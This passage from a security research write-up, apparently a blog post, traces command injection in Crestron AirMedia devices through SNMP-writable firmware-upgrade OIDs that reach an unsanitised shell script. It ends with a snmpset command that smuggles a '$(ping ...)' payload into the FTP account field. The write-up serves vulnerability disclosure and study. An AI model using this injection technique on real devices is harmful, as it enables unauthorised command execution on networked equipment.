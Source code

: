 *CAMSelectiveServiceTypeTC* being a boolean, there is no way we can inject here :(

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>CAMSelectiveServiceTypeTC <span class="o">::=</span> <span class="nv">TEXTUAL-CONVENTION</span>
    <span class="nv">STATUS</span>  <span class="nb">current</span>
    <span class="nv">DESCRIPTION</span>
        <span class="s2">"TC for enumerated property camSelectiveServices."</span>
    <span class="nv">SYNTAX</span> <span class="nv">INTEGER</span> {
        <span class="nb">off</span>(<span class="mi">0</span>),
        <span class="nb">on</span>(<span class="mi">1</span>)
    }</code></pre>
</div></div>

---

Let's move onto our last sink: **ftpfw.sh**. Here it is pretty obvious that there are ways to it:

<details><summary style="background-color:#f6f7f8;padding: 15px;border-color:gray;border-style: solid;border-width: 1px;">Crestron Airmedia SNMP OIDs (firmware upgrade)</summary></details>

If you remember the shell script lacking proper input sanitization, it seems the following OIDs could be used to inject our payload:

* *camFWUpgradeFTPPasswd*
* *camFWUpgradeFTPAccount*
* *camFWUpgradeFTPPort*
* *camFWUpgradeFTPURL*

Then, *camFWUpgradeFTPActive* can be used to trigger the firmware upgrade, and therefore the call to **ftpfw.sh**:

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>camFWUpgradeFTPActive <span class="nv">OBJECT-TYPE</span>
    <span class="nv">SYNTAX</span> <span class="nb">Integer32</span>
    <span class="nv">MAX-ACCESS</span>  <span class="nb">read-write</span>
    <span class="nv">STATUS</span> <span class="nb">current</span>
    <span class="nv">DESCRIPTION</span>
        <span class="s2">"1: start to upgrade"</span>
    <span class="o">::=</span> <span class="o">{</span> camFWUpgrade <span class="mi">5</span> <span class="o">}</span></code></pre>
</div></div>

Ok. Let's give it a try by injecting a payload in the FTP account value. Note that the string must be an exact length, hence the padding of A's.

{% highlight bash %}
$ snmpset -v2c -c private -m +CRESTRON-WPS-MIB 192.168.100.2 camFWUpgradeFTPAccount.0 s '$(ping -c 3 192.168.100.1)AAAAA'
CRESTRON-WPS-MIB::camFWUpgradeFTPAccount.0 = STRING: $(ping -c 3 192.168.100.1)AAAAA
{% endhighlight %}
